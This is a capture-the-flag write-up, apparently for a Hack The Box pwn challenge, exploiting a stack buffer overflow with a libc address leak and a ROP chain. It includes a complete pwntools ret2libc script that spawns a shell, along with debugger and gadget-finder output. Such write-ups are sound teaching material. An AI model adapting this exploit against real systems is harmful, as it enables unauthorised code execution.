

## Pet Companion - Pwn Challenge
The "Pet Companion" challenge requires participants to exploit a buffer overflow vulnerability to execute arbitrary commands, such as calling the Bash endpoint. Leveraging the cyclic tool in Pwntools, participants identify the vulnerability and construct a ROP chain to manipulate the program's execution flow.

### Exploiting the Buffer Overflow:
Using the cyclic tool, participants identify the buffer overflow vulnerability and craft a payload to overwrite the destination function. By carefully constructing the payload, participants ensure that the overwritten function points to a target function, such as `system`, allowing for command execution.

#### Cyclic Generation
```sh
<SNIP>
*RSP  0x7fffffffdbc8 ◂— 0x616161616161616a ('jaaaaaaa')
*RIP  0x4006df (main+149) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x4006df <main+149>    ret    <0x616161616161616a>
<SNIP>
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

We now know, anything we put 72 characters in can define the next function to be called. 

Looking through Ghidra, I don't see any interesting non-called functions, which hints that I need to use a native function; and doing a `info function` in pwndbg shows me a massive availability of imported resources to use. Among them, my `execve` and `system` functions. These will allow me to make direct system calls. However, given that the binary is loaded with `Full RELRO`, the addresses are ReadOnly and I cannot edit the contents of them directly.

```sh
checksec --file=pet_companion              
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   65 Symbols        No    0               1               pet_companion
```

To see what interesting things I can pass into these functions, then, I'll need to extract the hex locations of interesting strings in these libraries. LibC has a known contents of `/bin/sh` lurking for certain types of calls, so let's start here.

```sh
[11:12:20] tokugero :: pangolin  ➜  pwn/petcompanion/challenge » strings -a -t x glibc/libc.so.6| grep "bin"
<SNIP>
 1b3d88 /bin/sh
<SNIP>
```

Finally, we need the offset values of our `system` and `execve` functions, as well as a function with which to write to the screen and to leak our base addresses to do the math required to know where all this data will be after the program starts.

Write offset, if we don't want to use the ELF pwntools function:


And finally, to craft our functions we'll need the rop gadgets necessary to populate our registers with the correct values to call our functions.

```sh
ropper -f target/pet_companion | grep -e rsi -e rdi -e ": ret;"
<SNIP>
0x0000000000400743: pop rdi; ret; 
0x0000000000400741: pop rsi; pop r15; ret; 
<CHEATING IN OUTPUT>
0x00000000004004de: ret; 
```


### Dealing with ASLR:
With ASLR enabled, directly calling the `system` function is not feasible. Participants must first leak an address return back to the main pointer to bypass ASLR. By executing the payload to pop a shell through the binary, participants gain control over the program's execution flow and achieve their objective.

```sh
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> info func system
All functions matching regular expression "system":

Non-debugging symbols:
0x00007ffff784f420  __libc_system
0x00007ffff784f420  system
0x00007ffff7959c50  svcerr_systemerr
pwndbg> info func execve
All functions matching regular expression "execve":

Non-debugging symbols:
0x00007ffff78e4ae0  execve
0x00007ffff78e4b10  fexecve

pwndbg> info proc map
process 540065
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
            0x400000           0x401000     0x1000        0x0  r-xp   /path/pet_companion
            0x600000           0x601000     0x1000        0x0  r--p   /path/pet_companion
            0x601000           0x602000     0x1000     0x1000  rw-p   /path/pet_companion
      0x7ffff7800000  #<-- BASE ADDRESS   0x1e7000        0x0  r-xp   /path/glibc/libc.so.6 
      0x7ffff79e7000     0x7ffff7be7000   0x200000   0x1e7000  ---p   /path/glibc/libc.so.6
      0x7ffff7be7000     0x7ffff7beb000     0x4000   0x1e7000  r--p   /path/glibc/libc.so.6
      0x7ffff7beb000     0x7ffff7bed000     0x2000   0x1eb000  rw-p   /path/glibc/libc.so.6
      0x7ffff7bed000     0x7ffff7bf1000     0x4000        0x0  rw-p   
      0x7ffff7c00000     0x7ffff7c29000    0x29000        0x0  r-xp   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e29000     0x7ffff7e2a000     0x1000    0x29000  r--p   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e2a000     0x7ffff7e2b000     0x1000    0x2a000  rw-p   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e2b000     0x7ffff7e2c000     0x1000        0x0  rw-p   
      0x7ffff7ff7000     0x7ffff7ff9000     0x2000        0x0  rw-p   
      0x7ffff7ff9000     0x7ffff7ffd000     0x4000        0x0  r--p   [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0  r-xp   [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rw-p   [stack]

pwndbg> p/x (0x00007ffff784f420-0x7ffff7800000)
$2 = 0x4f420 #< Example to pull out offset for system call taht we'll need later
```

#### The Final Payload:
```python
io = start()

# magic numbers needed for both payloads
overflow_offset = 72
main_ptr = 0x40064a

# Identified function addresses from ropper gadget finder
ret_ptr = 0x4004de
pop_rdi = 0x400743
pop_rsi_r15 = 0x400741

payload1 = b'A' * overflow_offset
payload1 += p64(ret_ptr)
payload1 += p64(pop_rsi_r15)
payload1 += p64(elf.got['write']) # Accessable from the dynamic loaded library  (libc)
payload1 += b'B' * 8
payload1 += p64(elf.symbols['write']) # Accessable from the static library (elf)
payload1 += p64(main_ptr)

io.sendline(payload1)
io.recvuntil(b'Configuring...\n\n')

# System offsets identified on local system with ghidra and gdb
system_offset = 0x4f420
execve_offset = 0xe4ae0
bash_offset = 0x1b3d88 # from strings -a -t x glibc/libc.so.6| grep "bin" 
exit_offset = 0x43110
write_offset = 0x1100f0 # LIBC write

# Leak a useful base address
leakraw = io.recvline()
leak = u64(leakraw.split()[0].strip().ljust(8, b'\x00'))
log.info(f'Leaked write: {hex(leak)}')
# Calculate the base address from the leaked address and subtracting the known offset value
libc_start_ptr = leak - write_offset
log.info(f'Leaked base address: {hex(libc_start_ptr)}')

# Calculate actual pointers to these functions
execve_ptr = libc_start_ptr + execve_offset
system_ptr = libc_start_ptr + system_offset
bash_ptr = libc_start_ptr + bash_offset
exit_ptr = libc_start_ptr + exit_offset

payload2 = b'C' * overflow_offset # Overflow to first instruction override
payload2 += p64(pop_rdi) # Set parameter 1 for the function
payload2 += p64(bash_ptr) # Location of /bin/sh string in downloaded libc
payload2 += p64(ret_ptr) # Corrects stack alignment after string injection
payload2 += p64(system_ptr) # Call system function with the /bin/sh arg
payload2 += p64(exit_ptr) # Stay classy, san diego. You'll never reach this.

io.sendline(payload2)

io.interactive()
```

```python
python pwntools.py 
[+] Starting local process './pet_companion': pid 541115
[*] Leaked write: 0x7ffff79100f0
[*] Leaked base address: 0x7ffff7800000
[*] Switching to interactive mode
[!] Set your pet companion's current status: 
[*] Configuring...

$ ls
bits             pet_companion_1.gpr   pet_companion_3.lock~
flag.txt         pet_companion_1.rep   pet_companion_3.rep
glibc             pet_companion_2.gpr   pet_companion.gpr
pet_companion         pet_companion_2.rep   pet_companion.rep
pet_companion_0.gpr  pet_companion_3.gpr   pwntools.py
pet_companion_0.rep  pet_companion_3.lock
$ cat flag.txt
HTB{f4k3_fl4g_4_t35t1ng}
```

### Conclusion:
The "Pet Companion" challenge showcases the intricacies of exploiting buffer overflow vulnerabilities and bypassing ASLR protection. By crafting a ROP chain and understanding the program's memory layout, participants can successfully execute arbitrary commands and solve the challenge. This experience highlights the importance of understanding memory manipulation techniques in pwn challenges.
